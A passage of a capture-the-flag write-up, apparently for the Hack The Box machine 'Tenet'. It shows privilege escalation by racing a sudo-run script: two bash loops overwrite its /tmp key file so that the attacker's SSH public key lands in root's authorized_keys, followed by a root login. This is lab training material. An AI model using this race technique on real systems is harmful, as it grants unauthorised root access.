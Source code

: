 ```console
key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded

```

Let's look at the function ```addKey()```, It's create temp file, write ```$key``` into the temp file then write it to ```/root/.ssh/authorized_keys```.

We need to be fast to override the tmp file was created by ```mktemp``` with our ssh public key.

First, Create file that contains our ssh public key and upload it to target machine (which you can create it by using ```ssh-keygen```:
```console
neil@tenet:~$ cat key
ssh-rsa <YOUR_SSH_PUBLIC_KEY> user@parrot
```

Then, Let's write two ```bash``` scripts:

1. Write the content of key file to ```ssh-*``` files in ```/tmp``` directory (which created by ```mktemp```):

```bash
neil@tenet:~$ cat write_key_to_tmp_files.sh
while true;do cat /home/neil/key |tee /tmp/ssh-* ;done
```
2. Run the script with ```while true```:
```bash
neil@tenet:~$ cat run_loop.sh
while true;do sudo /usr/local/bin/enableSSH.sh;done
```

Run it:
```console
neil@tenet:~$ bash run_loop.sh > /dev/null &
[1] 23659
neil@tenet:~$ bash write_to_ssh-.sh > /dev/null &
[2] 31460
```

Wait few seconds and then we can try to connect to target machine using our ssh private key to user root:
```console
┌─[evyatar@parrot]─[/hackthebox/Tenet]
└──╼ $ ssh -i id_rsa root@10.10.10.223
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 2.0


53 packages can be updated.
31 of these updates are security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Feb 11 14:37:46 2021
root@tenet:~# ls
```